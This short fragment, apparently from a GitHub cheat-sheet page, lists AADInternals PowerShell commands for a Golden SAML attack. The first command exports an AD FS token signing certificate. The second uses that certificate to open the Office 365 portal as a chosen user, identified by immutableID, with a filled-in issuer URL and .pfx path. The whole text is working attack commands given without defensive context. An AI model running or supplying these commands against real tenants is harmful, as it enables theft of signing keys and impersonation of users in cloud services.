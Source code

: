 #### Export the token signing certificate
```
Import-Module .\AADInternals.psd1
Export-AADIntADFSSigningCertificate
```

#### Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified 
```
Open-AADIntOffice365Portal -ImmutableID pwrtlmsicU+5tgCUgHx2tA== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
